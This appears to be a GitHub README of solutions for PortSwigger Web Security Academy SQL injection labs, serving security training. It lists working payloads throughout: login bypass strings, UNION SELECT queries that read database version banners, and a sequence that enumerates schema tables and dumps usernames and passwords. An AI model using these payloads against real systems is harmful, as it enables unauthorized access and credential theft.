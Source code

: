 # PS-academy-Labs

1. https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
     /filter?category=Clothing%2c+shoes+and+accessories%27%20OR%201%3D1%20--%20
     ' OR 1=1 -- 
2. https://portswigger.net/web-security/sql-injection/lab-login-bypass
   Solution #1
   administrator
   ' OR 1=1 --

   Solution #2
   administrator'--
  
3. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
   /filter?category=%27+UNION+SELECT+BANNER,NULL+FROM+v$version--
   
3. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
     GET /filter?category='+UNION+SELECT+@@version,+NULL# HTTP/2

5. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
   GET /filter?category='+UNION+SELECT table_name,NULL FROM information_schema.tables-- HTTP/2
   GET /filter?category='+UNION+SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_ocqdko'-- HTTP/2
   GET /filter?category='+UNION+SELECT username_qrvfyq,password_ofzdsw FROM users_ocqdko-- HTTP/2
